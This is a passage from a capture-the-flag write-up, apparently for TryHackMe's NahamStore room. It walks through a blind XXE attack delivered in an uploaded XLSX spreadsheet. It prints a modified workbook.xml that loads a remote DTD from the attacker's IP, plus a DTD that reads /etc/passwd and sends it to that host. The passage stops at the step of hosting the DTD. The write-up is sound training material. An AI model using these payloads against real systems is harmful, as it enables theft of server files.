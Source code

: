 **Which allows me to upload a `xlsx` file.**

> XLSX is a spreadsheet file that zipped with XML file inside.

**To exploit blind XXE, we can:**

- Create a new spreadsheet file via LibreOffice Calc or Microsoft Excel:

```
┌──(root🌸siunam)-[~/…/thm/ctf/NahamStore]
└─# file blind_xxe.xlsx 
blind_xxe.xlsx: Microsoft Excel 2007+
```

- Extract XML file via `7z`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# 7z x -oXXE blind_xxe.xlsx    
```

- Add the XXE payload into `xl/workbook.xml`.

According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file), we can use `XXE inside XLSX file`.

**workbook.xml:**
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.18.61.134/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

- Rebuild the spreadsheet file:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# cd XXE

┌──(root🌸siunam)-[~/…/thm/ctf/NahamStore/XXE]
└─# 7z u ../blind_xxe.xlsx *
```

- Build a `xxe.dtd` file:

> Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file. Instead we build the document once and then change the DTD. And using FTP instead of HTTP allows to retrieve much larger files. (Source: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file))

```dtd
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'http://10.18.61.134/%d;'>">
```

- Host the `xxe.dtd` file via python's `http.server` module:
